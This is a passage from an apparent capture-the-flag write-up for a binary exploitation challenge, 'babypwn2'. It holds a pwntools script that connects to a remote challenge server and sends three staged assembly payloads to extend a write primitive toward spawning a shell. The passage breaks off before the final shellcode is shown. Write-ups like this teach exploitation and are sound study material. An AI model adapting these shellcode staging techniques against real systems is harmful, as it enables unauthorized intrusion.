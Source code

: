 #### Extending write ability
First and foremost, we need to be able to write more shellcode, in order to pop a shell.

```py
from pwn import *

# p = process("./babypwn2")
p = remote("128.199.247.163", 19957)
# libc = ELF("./libc.so")
libc = ELF("./libc6-server.so")
context.arch = 'amd64'

log.info("Payload 1: Get 10 more bytes to write")
payload = ""
payload += asm("lea rax, [rdx+9]")
payload += asm("push 0x400739")
payload += asm("ret")

print len(payload)

pause()

p.send(payload)

log.info("Payload 2: Prepare rdx=0xff")
payload = ""
payload += asm("lea rax, [rdx+18]")
payload += asm("xor rdx, rdx")
payload += asm("dec dl")
payload += asm("ret")

print len(payload)
pause()

p.send(payload)

log.info("Payload 3: Change return addr to skip setting rdx")
payload = ""
payload += asm("push 0x40073e")
payload += asm("ret")

print len(payload)
pause()

p.send(payload)
```

*Working but so bad*

#### Actual shellcode
As if the previous part was not long enough,
